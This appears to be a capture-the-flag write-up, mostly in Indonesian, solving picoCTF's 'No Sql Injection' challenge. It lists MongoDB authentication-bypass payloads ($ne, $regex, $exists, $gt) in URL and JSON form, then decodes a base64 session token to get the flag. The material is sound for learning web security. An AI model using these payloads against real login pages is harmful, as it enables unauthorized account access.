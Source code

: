 # No Sql Injection - Web Exploitation - Medium

## Description
Can you try to get access to this website to get the flag?  
You can download the source here.  
Additional details will be available after launching your challenge instance.  

## Hint
1. Not only SQL injection exist but also NonSQL injection exists.
2. Make sure you look at everything the server is sending back.

## Solution  

### 1. 
Download file yang telah diberikan oleh PICOCTF dan ekstrak, lalu lihat pada file server.js untuk mengetahui petujuk selanjutnya. di dapat bahwa server menggunakan mongoDB dimana merupakan Nosql database, maka dapat dilakukan injeksi Nosql. hal menarik lainnya adalah didapat sebuah email yang digunakan untuk login nantinya.  
![alt_text](https://github.com/fauznazz-afk/ctf-writeup/blob/main/Documentation/NoSql_Injection/Screenshot%20From%202025-01-30%2009-47-51.png?raw=true)

### 2.
Setelah itu, buka website yang telah di berikan oleh PICOCTF `http://atlas.picoctf.net:<port>/` dan gunakan email yang didapat. setelah itu gunakan Nosql injection pada kolom password.  
> #in URL  
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

> #in JSON  
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }

![alt_text](https://github.com/fauznazz-afk/ctf-writeup/blob/main/Documentation/NoSql_Injection/Screenshot%20From%202025-01-30%2009-57-22.png?raw=true)

### 3.
Setelah login, maka akan redirect ke halaman admin, disini tampak biasa saja maka dari itu kita melakukan inspect element dan mencari ha yang menarik di dalamnya. Pada kolom `application`, di dalam session storage ditemukan sebuah token yang terenkripsi base64, ini menjadi indikasi sebuah flag.

![alt_text](https://github.com/fauznazz-afk/ctf-writeup/blob/main/Documentation/NoSql_Injection/Screenshot%20From%202025-01-30%2010-02-07.png?raw=true)

### 4.
Kita copy dan melakukan dekripsi dengan terminal. saya melakukan `echo "<token>" | base64 -d` untuk mendekripsi token tadi, maka di dapat sebuah flag yang dicari.  
![alt_text](https://github.com/fauznazz-afk/ctf-writeup/blob/main/Documentation/NoSql_Injection/Screenshot%20From%202025-01-30%2010-04-51.png?raw=true)

# THANKS!
